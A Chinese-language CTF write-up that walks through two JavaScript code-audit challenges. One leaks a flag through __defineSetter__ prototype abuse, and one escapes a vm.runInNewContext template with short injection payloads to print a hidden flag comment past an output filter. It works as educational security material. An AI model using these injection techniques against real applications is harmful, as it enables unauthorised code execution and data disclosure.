






 两道有趣的JS代码审计题目


<!--  -->


 converter

题目是一个网页，如下：

<!--  -->


POST两个参数， `Input` 即输入的数据， `converter` 代表选择的转换器

<!--  -->


分析源码，可以看到有三个 `converter` ，即代表着三种不同的encode方式，其中 `flagConverter` 里面有flag

但是限制了 `request.body.converter`，不能出现 `FLAG`

```ts
  if (request.body.converter.match(/[FLAG]/)) {
    throw new Error("Don't be evil :)");
  }

  if (request.body.input.length < 20) {
    throw new Error('Too short :(');
  }

  if (request.body.input.length > 1000) {
    throw new Error('Too long :(');
  }
```

这里研究了之后确实不存在突破办法了🤣

 分析

注意到真正调用 `converter` 的代码， 我们输入的两个参数 `req.body.converter` 和 `req.body.input`，其中 `req.body.converter` 是作为 `converters` 的属性名，即我们可以控制 `conveters`的任意一个属性（除了这个属性名不能含有 `FLAG` 之外）

> 通过 `await new Promise` 代码是在尝试将回调式的异步操作转换为Promise风格的操作，以便使用 await 来等待执行结果，可以忽略

并且我们发现， `converters` 是一个 const 类型，并且每次执行 `encode` 操作，都会对 `converters` 做一次赋值（理论上直接写死就行了吧，没必要每次请求都这么干）

```ts
  converters['base64'] = base64Converter;
  converters['scrypt'] = scryptConverter;
  converters[`FLAG_${request.session.sessionId}`] = flagConverter;

  const result = await new Promise((resolve, reject) => {
    converters[request.body.converter](request.body.input, (error, result) => {
      if (error) {
        reject(error);
      } else {
        resolve(result);
      }
    });
  });
```

而我们知道，在JS中，虽然一个对象的属性看上去只有那么点，但是由于JS特有的原型链继承关系，就会导致 `Object` 对象的属性也被继承过来（因此可以逐一去对这些属性做尝试）


<!--  -->


其中这个 `__defineSetter__ ` 属性很有意思，有点类似反射，可以给对象的一个属性做一个代理，正常写法其实是这样的：

```ts
const obj = {
  a: 1
};

// 使用 __defineGetter__
obj.__defineSetter__('a', function(res) {
	console.log("get res: " + res);
});
```

如果我们定义了 setter ，那么后续赋值的时候， 赋值等式的右边值就会作为 setter 函数的第一个参数传进来

<!--  -->


所以，当我们输入 `input= FLAG_***SESSION*** ` （input并没有不允许输入FLAG字符串），`converter = __defineSetter__ ` 时，代码变为：

```ts
converters["__defineSetter__"]("FLAG_***SESSION***", (error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
});
```

这样当我们重写完对象的 `FLAG_***SESSION***`  对应的 setter 时，这个网页先不动！

后续再新开一个网页去访问，此时触发：

```ts
converters[`FLAG_${request.session.sessionId}`] = flagConverter;
```

可以看到 `flagConverter` 就会作为第一个参数传入到函数

```ts
(error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
}
```

此时 result 的结果自然就是 error , 即 `flagConverter.toString()` 的结果

回到我们的第一个网页，此时就能看到：

<!--  -->


 Kantan Calc


这道题目也很有意思，是我见过的JS代码审计中比较新颖的，巧妙地用沙箱逃逸来误导你，实际利用的是JS很常见的一个特性

CTF中的经典计算器前端：
<!--  -->


看代码：

```ts
app.get('/', function (req, res, next) {
  let output = '';
  const code = req.query.code + '';
  console.log(code.length); // 打印输入的代码长度
  if (code && code.length < 30) {
    try {
      const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
      output = result + '';
      if (output.includes('flag')) {
        output = 'Error: please do not exfiltrate the flag';
      }
    } catch (e) {
      output = 'Error: error occurred';
    }
  } else {
    output = 'Error: invalid code';
  }

  res.render('index', { title: 'Kantan Calc', output });
});
```

关键代码就是在 `vm.runInNewContext` 那一行，即输入的内容会被当做代码执行，比如输入 `2*2`

实际在vm中执行的代码就是：

```ts
'use strict';
(
	function(){
		return 2*2; /* flag{fake_flag} */
	}
)()
```

实际就是一个立即执行函数，但是这里要注意：

```ts
vm.runInNewContext('', Object.create(null))
```

`Object.create(null)` 实际上是创建了一个没有任何原型链的对象，是一个绝对“干净”的对象

因此，最常用的一种沙箱逃逸是没有办法了（我就懒得写了）

 解法

在 JavaScript 中，可以通过将函数体转换为字符串来获取函数体：

```ts
function a() {}
console.log(a+'')
// "function a() {}"
```

这样就可以让代码内的flag注释信息打印出来了，但是就算打印出来还是会被后面的if给拦截，这应该怎么办呢？

答案就是数组，利用函数 toString 弱类型转换，返回char数组（绕开if检测），同时保证payload长度小于30

那么我们先直接闭合前面的函数，然后开一个新的函数，即输入：

```ts
},function p(){return[...p+1]
```

那么此时：

```ts
'use strict';
(
	function(){
		return 
	},
	function p(){return[...p+1]; /* flag{fake_flag} */
	}
)()
```

那么第二个函数p执行的时候，先执行加法，抓为字符串，然后解构为数组，就绕开了检测

在看wp的时候还发现有另一种思路：

```ts
[...arguments[0]+0]})(a=>{
```

实际执行的代码：

```ts
'use strict';
(
	function(){
		return [...arguments[0]+0]}
)
(a=>{
			; /* flag{fake_flag} */
	}
)()
```

等于先定义了一个函数

```ts
(
	function(){
		return [...arguments[0]+0]
	}
)
```

然后调用的时候传递了一个参数， `(a => {;/*flag{fake_flag}*/})`，那么自然这个函数就会被当做参数 `arguments` 传递进去，同样的道理（不过这种情况会报错了，因为返回的是个数组无法继续函数调用）


 总结

这两道题目也都打包Docker镜像了，有需要的可以自取：

```ts
docker run -d --restart=always -p 3000:3000 rayepeng/kantan_calc:latest
docker run -d --restart=always -p 3000:3000 rayepeng/convert:latest  
```

其实JS的很多特性都是可以用来出题的，但是却很少像PHP那样，有各种变种且好玩的代码审计题，后续准备在这里多思考下，尝试自己也出几道有趣的结合JS特性的审计题目


[]()